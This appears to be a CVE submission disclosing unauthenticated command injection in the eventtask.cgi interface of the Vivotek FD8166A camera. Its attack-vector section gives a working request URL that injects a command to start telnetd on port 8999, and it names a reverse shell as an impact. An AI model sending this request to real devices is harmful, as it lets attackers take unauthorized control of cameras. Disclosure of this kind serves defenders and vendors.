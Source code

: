 # vivotek-dos-submit

## Vulnerability type

command injection  

## Vendor of the product(s)

vivotek

## Product

vivotek
<[https://www.vivotek.com/fd8166a](https://www.vivotek.com/fd8166a)>
vivotek FD8166A

## Attack type

Remote

## Impact

Denial of Service & Rebound shell

## Affected component(s)

vivotek FD8166A

## Attack vector(s)

```python
http://192.168.1.107/cgi-bin/admin/eventtask.cgi?method=exec&file=telnetd%20-p%208999
```

## Suggested description of the vulnerability for use in the CVE

Issue found on vivotek FD8166A device. An unauthenticated attacker can use the data interface of eventtask.cgi to carefully construct a payload to complete a command injection attack. An issue was discovered on vivotek FD8166A. An unauthenticated attacker can send a request through the eventtask.cgi interface. After cgi is processed, the input is not strictly verified, resulting in imperfect filtering. Ultimately, the attacker can control the parameters of the System function to achieve unauthorized arbitrary command injection.

## Discoverer(s)/Credits

ljzjsc

## Reference(s)

github.com

## Additional information
